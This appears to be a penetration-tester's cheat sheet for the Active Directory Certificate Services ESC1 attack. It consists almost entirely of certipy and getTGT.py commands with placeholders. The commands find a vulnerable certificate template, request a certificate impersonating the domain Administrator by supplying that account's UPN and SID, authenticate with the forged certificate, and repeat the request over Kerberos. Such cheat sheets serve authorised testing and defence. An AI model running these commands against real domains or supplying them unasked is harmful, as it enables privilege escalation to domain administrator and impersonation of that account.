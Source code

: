 # ADCS ESC1

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Request a cert that impersonates Administrator
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> -dc-ip <DC_IP> -dc-host <DC_HOST> -template <ESC1_TEMPLATE> -upn '<ADMIN_USER>@<DOMAIN>' -sid <ADMIN_SID>
```

## 3. Log on with the minted cert
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```

## 4. If password of hash fails:
```
getTGT.py <domain>/<username>:'<password>' -dc-ip <DC_IP>
```
## 5. Using Kerberos for certificate request.
```
certipy req -u <username> -k -target <CA_FQDN> -ca <CA_NAME> -dc-ip <DC_IP> -dc-host <DC_HOST> -template <ESC1_TEMPLATE> -upn '<ADMIN_USER>@<DOMAIN>' -sid <ADMIN_SID>
```
